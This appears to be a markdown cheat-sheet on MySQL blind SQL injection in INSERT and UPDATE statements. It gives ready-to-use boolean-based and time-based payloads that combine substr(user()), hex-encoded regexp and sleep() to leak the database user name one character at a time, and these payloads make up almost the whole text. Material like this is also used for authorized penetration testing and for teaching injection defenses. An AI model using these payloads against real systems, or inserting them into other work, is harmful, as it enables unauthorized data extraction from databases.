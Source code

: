 ## Mysql

#### MySQL Blind Injection in Insert and Update Statements


##### Boolean Based Blind Injection:

If the result is true the entry will be updated with a ‘1’ and if the result is false the entry will be updated with a ‘0’.

USAGE :  regexp anyregex with or without hex encoding if
eg: with hex encoding r to hex is 72 add 0x also,

```update users set username = ‘0’ | (substr(user(),1,1) regexp 0x72) where id=14;```

now it will set username to 1 if user's first letter is r
```
update users set username = ‘0’ | (substr(user(),1,1) regexp 0x5e5b6d2d7a5d) where id=14;
 
 Without regexp
 UPDATE users set username = '0'| (substr(user(),1,1) = 'r');


insert into users values (15,’osanda’,'0'| (substr(user(),1,1) regexp 0x5e5b6d2d7a5d));
```

##### Time Based Blind Injection

```
update users set username = '0'|if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1) where id=15;

insert into users values (16,’osanda’,'0'| if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1));
```
